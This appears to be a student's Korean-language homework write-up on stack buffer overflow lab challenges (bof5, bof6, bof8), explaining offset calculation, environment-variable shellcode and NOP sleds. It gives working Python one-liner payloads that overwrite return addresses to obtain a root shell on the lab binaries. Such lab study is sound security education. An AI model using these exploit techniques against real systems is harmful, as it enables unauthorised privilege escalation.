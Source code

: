 # GBC Security_07

## HW #7

### Buffer Overflow
---

#### 0. main idea
*  `gets()`함수와 `strcpy()`함수는 입력받는 data의 크기를 검사하지 않기 때문에, 정해진 메모리의 크기를 초과하여 data가 전달되었을 경우, 초과한 data가 그대로 stack에 저장되게 된다. 이 취약점을 이용하여 return address를 원하는 주소로 덮어 씌울 수 있다. 

	> 인자에 buf보다 큰 값을 전달하면, innocent 변수 직전까지 값이 채워져 그 이후 입력한 값이 innocent 변수를 덮어쓸 수 있게 될 것이다. (bof 1 - 5)



#### 1. bof5

> `gets()`의 취약점을 이용한다.

![bof6](https://user-images.githubusercontent.com/47182864/61315366-93560080-a839-11e9-9110-cae98865dc72.png)

> `gets()`가 차지하는 메모리의 크기를 알아야 한다. 따라서, `innocent의 주소값 - gets()의 시작 주소값`을 해주면 함수가 차지하는 메모리의 크기를 구할 수 있다.

![bof6-2](https://user-images.githubusercontent.com/47182864/61315363-93560080-a839-11e9-8d32-95e7f4f5ed9f.png)

> `system()`에서 인자로 input값인 buf를 받고 있기 때문에, shell로 실행하기 위해서는 shell을 실행시킬 수 있는 명령으로 입력해야 한다.

![bof6-3](https://user-images.githubusercontent.com/47182864/61315364-93560080-a839-11e9-8a88-28b3b1e15c92.png)

> payload


```shell
shell code (8byte) + 쓰레기 값 (132byte) + return address 
```


> 따라서, 다음과 같은 익스플로잇으로 root shell을 탈취할 수 있다.

```shell
(python -c "print '/bin/sh\x00'+'G'*132+'\x78\x56\x34\x12'";cat) | ./bof5
```
> >`/bin/sh\x00` : `/bin/sh`는 shell을 실행시키기 위함이고, `\x00`은 문자열의 끝을 알리는 null byte이다.  
> > `'G'*132` : 전체 140byte에서 쉘코드가 8byte를 차지하고 있기 때문에, 쓰레기값은 남은 132byte를 채워줘야 한다.  
> >`\x78\x56\x34\x12` : KEY값 0x12345678을 16진수로 저장하기 위해서는 \x를 사용하여 리틀엔디안 방식으로 기입해야한다.   
> >`cat` : 표준 입력이 끊기지 않도록 해준다.  
> >`|` : 파이프 라인을 이용하여 출력할 값을 표준 출력으로 보낸 후, 다음 프로세스의 표준 입력으로 전달한다.


> [ result ]

![r5](https://user-images.githubusercontent.com/47182864/61317274-a5d23900-a83d-11e9-9094-6429d81e5be9.png)

#### 2. bof6

> `gets()`의 취약점을 이용한다. 
> `system()`이 shell을 호출하지 않으니, buf에서 input으로 shell코드를 받아 전달해줘야 한다.

![bof6](https://user-images.githubusercontent.com/47182864/61318142-5a208f00-a83f-11e9-8a1d-3434db18a2d4.png)

> `ret`일 때의 `rsp - gets()의 시작 주소값`하여 buf의 크기를 구해준다.

![bof6-2](https://user-images.githubusercontent.com/47182864/61318140-5987f880-a83f-11e9-8d87-2024584d5fd3.png)
![bof6-3](https://user-images.githubusercontent.com/47182864/61318141-5a208f00-a83f-11e9-9c4c-0895c02b07e9.png)


> payload


```shell
쓰레기 값 (136byte) + return address 
```

> shellcode:0x601050일 때, 다음과 같은 익스플로잇으로 root shell 탈취 가능

```shell
(python -c "print 'G'*136+'\x50\x10\x60\x00\x00\x00\x00\x00'";cat) | ./bof6
```
> >`'G'*136` : 쓰레기값 G로 버퍼를 136만큼 덮어준다.
> >`\x50\x10\x60\x00\x00\x00\x00\x00` : shell code의 시작 주소를 리틀 엔디안 형식으로 입력해준다 (8byte).

> [ result ]

![r6](https://user-images.githubusercontent.com/47182864/61319738-ca7cdf80-a842-11e9-8371-5d3f63ebdf94.png)

##### +) plus
* 아래와 같이 랜덤한 값을 넣어가며 버퍼의 크기를 예측할 수도 있다.
* 아래에서 135를 입력했을 때는 segmentation fault가 뜨지 않는데, 136을 입력하면 segmentation fault가 뜬다. 이 경우, 135가 buffer의 크기일까? __buffer의 크기는 136이다.__
* 136일때 segmentation fault가 뜨는 이유는, 뒤에 null byte까지 채워져서 그런 것이라고 한다.
![plus](https://user-images.githubusercontent.com/47182864/61319889-3a8b6580-a843-11e9-8d80-fc8d03371d20.png)

#### 3. bof8

> BUF_SIZE가 8밖에 되지 않아서, buffer에 shell code를 쓰기 어렵다. 이런경우, 환경변수를 사용해야한다. 

> > * __환경변수를 이용한 bof__ : 환경변수는 프로세스가 실행되는 동안, 스택에 위치하고 있다. 즉, 이 환경변수에 쉘코드를 저장하고 RET값을 환경변수가 위치한 주소로 세팅하는 방식으로 Root권한을 획득할 수 있다. 


![bof8](https://user-images.githubusercontent.com/47182864/61323693-9a860a00-a84b-11e9-96c0-5758457a35ac.png)

> 환경변수는 유저가 조작할 수 있기 때문에, export 명령어를 이용해서, 환경변수를 등록한다. getenv에 환경변수를 넣으면 주소값을 반환한다.

![bof8-2](https://user-images.githubusercontent.com/47182864/61346357-60d8f180-a893-11e9-9842-c5e32748306c.png)


> payload

```shell
쓰레기 값 (24byte) + return address 
```

> shellcode의 주소가 0x7fffffffe824일 때, 다음과 같은 익스플로잇으로 root shell 탈취 가능

```shell
(python -c "print 'G'*24 + '\x24\xe8\xff\xff\xff\x7f\x00\x00'";cat) | ./bof8
```

> >`'G'*24` : 쓰레기값 G로 버퍼를 24만큼 덮어준다.
> >`\x24\xe8\xff\xff\xff\x7f\x00\x00` : shell code의 시작 주소를 리틀 엔디안 형식으로 입력해준다 (8byte).

> [ result ]
> 
![bof8-3](https://user-images.githubusercontent.com/47182864/61346358-60d8f180-a893-11e9-90d1-ff4e98f50626.png)
	
---
### +) plus
---
* NOP 슬레이드 기법
	- 버퍼의 정확한 주소를 찾는 문제를 해결하는 것으로, 표적 영역의 크기를 증대시킨다. 공격자가 __NOP__명령어 이후에 버퍼의 최상위 위치, 셸 코드가 있는 곳으로 jump명령어를 둠으로 NOP슬레이드라고 부른다. RET주소를 덮어쓸 때, NOP영역 내의 주소값 어디를 써도 결국 NOP명령어를 따라 미끄러져 마지막 jump로 실제 악성코드가 있는 위치로 이동되기 때문이다.
	- 이 기법은 공격자가 상대적으로 작은 크기의 셸 코드의 위치 대신 스택에서 NOP슬레이드의 위치를 추정하면 된다.


쉘코드 만들기
<https://bob3rdnewbie.tistory.com/124>
참고
<http://m.blog.daum.net/sysnet924/154?np_nil_b=2>


---
